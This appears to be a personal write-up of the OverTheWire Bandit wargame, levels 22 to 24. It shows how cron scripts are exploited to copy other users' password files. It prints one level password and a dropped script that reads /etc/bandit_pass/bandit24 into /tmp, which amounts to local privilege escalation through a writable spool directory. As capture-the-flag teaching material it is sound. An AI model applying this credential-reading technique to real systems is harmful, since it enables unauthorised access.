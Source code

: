 ```bash
bandit22@bandit:/etc/cron.d$ /usr/bin/cronjob_bandit23.sh
Copying passwordfile /etc/bandit_pass/bandit22 to /tmp/8169b67bd894ddbb4412f91573b38db3
bandit22@bandit:~$ echo I am user bandit23 | md5sum | cut -d ' ' -f 1
8ca319486bfbbc3663ea0fbe81326349
bandit22@bandit:~$ cat /tmp/8ca319486bfbbc3663ea0fbe81326349
jc1udXuA1tiHqjIsL8yaapX5XIAI6i0n

```



## Bandit Level 23 → Level 24
### Level Goal
A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed.

NOTE: This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

NOTE 2: Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…


- cronjob 

```bash
bandit23@bandit:/etc/cron.d$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
```

- Now create directory in `tmp` and give permissions to write a file to it.
- write a shell script to read the `password` from `/etc/bandit_pass/bandit24` and write to the directory created in `tmp` and place it in `/car/spool/bandit24`

- script

```bash
bandit23@bandit:/tmp/bandit_user_24$ cat /var/spool/bandit24/user.sh
#!/bin/sh
cat /etc/bandit_pass/bandit24 > /tmp/bandit_user_24/pass24file
```
- Now wait for the script to execute , and once it is done `pass24file` file shoule be created in dircetory in `tmp`.

